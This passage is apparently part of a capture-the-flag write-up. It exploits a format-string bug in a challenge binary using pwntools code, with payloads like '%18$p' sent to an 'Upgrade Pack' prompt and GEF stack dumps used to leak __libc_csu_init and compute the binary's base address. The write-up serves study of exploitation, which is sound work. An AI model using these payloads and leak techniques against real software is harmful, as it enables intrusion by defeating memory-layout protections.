 ```
p.sendlineafter(b'2) Upgrade Pack', b'1')
payload = b'AAAAAAAA%p%p%p%p%p%p%p%p%p%p%p%p'
p.sendlineafter(b'Wanna upgrade pack?', payload)
p.recvline()
```

Run to it and we get the start of our input is at `%6$p`

![where_format_string.png](images/where_format_string.png)

Now, let's analize the stack when we're at the printf which has **Format string** bug:

```
gef➤  x/20xg $rsp
0x7ffe2e91e320:	0x3931257024383125	0x0a70243532257024
0x7ffe2e91e330:	0x0000560cb2743000	0x00007f53692944a0
0x7ffe2e91e340:	0x0000000000000000	0x00007f536913b013
0x7ffe2e91e350:	0x000000000000000f	0x00007f53692936a0
0x7ffe2e91e360:	0x0000560cb274117f	0x00007f5369292980
0x7ffe2e91e370:	0x00007f53692944a0	0x00007f536912c546
0x7ffe2e91e380:	0x0000560cb27407e0	0x289158d542ab4f00
0x7ffe2e91e390:	0x00007ffe2e91e3b0	0x0000560cb2740766
0x7ffe2e91e3a0:	0x000000012e91e4a0	0x289158d542ab4f00
0x7ffe2e91e3b0:	0x0000000000000000	0x00007f53690ce0b3

gef➤  x/xw 0x0000560cb27407e0
0x560cb27407e0 <__libc_csu_init>:	0xfa1e0ff3
```

We can see that at address `0x7ffe2e91e380` of stack contain the address of `__libc_csu_init`, so we will leak that address and calculate the base address of binary.

The offset for **Format string** bug is `6 + 12 = 18` so at `%18$p`, we will get address of `__libc_csu_init`. Code will changed to this:

```
p.sendlineafter(b'2) Upgrade Pack', b'1')
payload = b'%18$p'
p.sendlineafter(b'Wanna upgrade pack?', payload)
p.recvline()

# Get address of __libc_csu_init
__libc_csu_init_addr = int(p.recvline()[:-1].split(b'0x')[1], 16)
log.success("__libc_csu_init: " + hex(__libc_csu_init_addr))

# Calculate binary base address
exe.address = __libc_csu_init_addr - exe.sym['__libc_csu_init']
log.success("Exe base: " + hex(exe.address))
```
